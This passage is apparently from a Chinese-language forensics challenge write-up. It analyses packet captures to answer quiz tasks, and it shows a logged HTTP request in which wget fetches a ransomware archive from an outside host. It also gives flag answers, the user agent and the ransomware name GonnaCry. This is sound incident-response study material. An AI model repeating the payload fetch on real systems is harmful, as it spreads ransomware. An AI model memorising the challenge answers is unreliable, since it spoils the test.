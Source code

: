 使用以下筛选器进行查询

```plaintext
ip.addr == 172.31.39.46 && http && ip.addr==13.233.179.35
```

查看 http 请求头的 `user-agent` 参数即可

```plaintext
GET /PKCampaign/Targets/Forela/Ransomware2_server.zip HTTP/1.1
Host: 13.233.179.35
User-Agent: Wget/1.21.2
Accept: */*
Accept-Encoding: identity
Connection: Keep-Alive
```

```plaintext title="Answer"
Wget/1.21.2
```

## Task 21

> 勒索软件的名称是什么？

将传输的压缩包数据提取出来，使用 `binwalk` 进行分析，发现 `README.md` 文件

```plaintext title="Answer"
GonnaCry
```
